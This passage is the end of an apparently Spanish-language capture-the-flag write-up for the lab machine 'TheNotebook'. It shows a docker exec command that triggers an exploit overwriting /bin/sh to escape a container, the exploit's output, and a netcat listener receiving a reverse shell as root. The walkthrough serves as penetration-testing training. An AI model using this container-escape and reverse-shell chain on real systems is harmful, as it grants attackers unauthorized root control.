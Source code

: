 ```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Si miramos la terminal 1 veremos que ha ocurrilo lo siguiente:

```bash
root@0f4c2517af40:/opt/webapp# ./main
[+] Overwritten /bin/sh successfully
[+] Found the PID: 642
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00043e000}
```

Nos vamos a nuestro listener y podemos ver que tenemos una shell como root.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.10.230: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.230] 57414
bash: cannot set terminal process group (1800): Inappropriate ioctl for device
bash: no job control in this shell
root@thenotebook:/root# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Ya hemos pwneado la máquina, espero que te haya servido! 











